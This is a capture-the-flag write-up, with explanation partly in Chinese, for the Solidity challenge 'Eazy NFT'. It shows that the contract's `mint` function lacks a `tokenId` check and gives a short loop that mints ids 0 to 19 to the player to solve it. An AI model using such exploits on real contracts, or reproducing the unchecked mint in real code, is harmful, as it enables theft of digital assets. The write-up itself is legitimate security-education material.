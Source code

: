 ## Eazy NFT

NFT market was slowly booming and Tony's friends were showing off their NFT holdings. Tony had finally whitelisted a NFT project, he's anxiously waiting for minting his first NFT.

这题对外调用的 `mint` 函数只检查了白名单，没有对 `tokenId` 做检查。
``` solidity 
    function mint(address to, uint256 tokenId) public {
        require(access[_msgSender()], "ET: caller is not accessed");
        _mint(to, tokenId);
    }
```

题目要求 0 到 19 号 id 都是 player 的。
``` solidity
    function solve() external {
        solved = true;
        for (uint256 i = 0; i < 20; i++) {
            if (et.ownerOf(i) != PLAYER) {
                solved = false;
            }
        }
    }
```

所以我们直接 mint 0 到 19 号即可。
``` solidity
        ET et = challenge.et();
        for (uint256 i = 0; i < 20; i++) {
            et.mint(player, i);
        }
```
